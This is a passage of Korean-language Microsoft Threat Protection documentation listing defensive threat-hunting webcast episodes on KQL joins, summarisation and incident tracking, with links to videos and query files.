| 에피소드 2: 조인 | 계속 해 서 고급 사냥의 데이터에 대해 배우고 테이블을 함께 조인 하는 방법을 알아봅니다. 내부, 외부, 고유 및 세미 조인 및 기본 Kusto innerunique join의 nuances에 대해 알아봅니다. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [에피소드 2: Git의 CSL 파일](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| 에피소드 3: 데이터 요약, 피벗 및 시각화|이제 데이터를 필터링, 조작 및 조인할 수 있으므로 요약, 수량화, 피벗/시각화를 시작 해야 합니다. 이 에피소드에서는 요약 연산자와 고급 구하기 스키마에서 추가 테이블을 소개 하는 동안 수행할 수 있는 몇 가지 계산에 대해 설명 합니다. 데이터 집합은 분석을 개선 하는 데 도움이 되는 차트로 변환 합니다. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [에피소드 3: Git의 CSL 파일](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| 에피소드 4: 이번에는 사냥을 사용 합니다. 인시던트 추적에 KQL 적용|일부 공격자 활동을 추적 하는 데 걸리는 시간입니다. 이 에피소드에서는 Microsoft Threat Protection의 KQL 및 고급 구하기에 대 한 향상 된 이해를 활용 하 여 공격을 추적 합니다. Cybersecurity의 ABCs와이를 인시던트 응답에 적용 하는 방법을 비롯 하 여 공격자 활동을 추적 하기 위해 필드에 사용 되는 몇 가지 팁과 트릭을 알아봅니다. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [에피소드 4: Git의 CSL 파일](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>다음 단계
| <br>[마감 및 요약 단계](mtp-pilot-close.md) | Microsoft Threat Protection 파일럿 결과를 분석 하 고 관련자에 게 제공 하 고 다음 단계를 수행 합니다.
|:-----|:-----|

